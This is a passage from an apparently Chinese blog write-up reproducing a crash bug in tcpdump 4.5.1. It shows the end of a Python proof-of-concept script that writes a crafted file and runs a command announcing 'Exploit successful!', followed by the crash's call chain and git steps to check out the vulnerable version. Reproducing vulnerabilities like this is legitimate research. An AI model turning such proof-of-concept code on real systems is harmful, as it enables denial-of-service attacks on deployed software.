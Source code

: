 ```
        file.write(buffer)
    try:
        call(split(command))
        print("Exploit successful!             ")
    except:
        print("Error: Something has gone wrong!")


def main():

    print("Author:   David Silveiro                           ")
    print("   tcpdump version 4.5.1 Access Violation Crash    ")

    sleep(2)
    crash()

if __name__ == "__main__":
    main()
```

执行效果

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://raw.githubusercontent.com/xinali/img/master/blog/%E4%BA%8C%E8%BF%9B%E5%88%B6%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/tcpdump-4.5.1%20crash%E5%88%86%E6%9E%90/1542711906438.png)

执行顺序

```
print_packet
 |
 |--&gt;ieee802_15_4_if_print
        |
        |--&gt;hex_and_asciii_print(ndo_default_print)
                |
                |--&gt;hex_and_ascii_print_with_offset
```

直接顺着源代码撸就行

```
&gt; git clone https://github.com/the-tcpdump-group/tcpdump
&gt; git tag
    ...
      tcpdump-4.4.0
    tcpdump-4.5.0
    tcpdump-4.5.1
    tcpdump-4.6.0
    tcpdump-4.6.0-bp
    tcpdump-4.6.1
    tcpdump-4.7.0-bp
    tcpdump-4.7.2
    ...
&gt; git checkout tcpdump-4.5.1
```
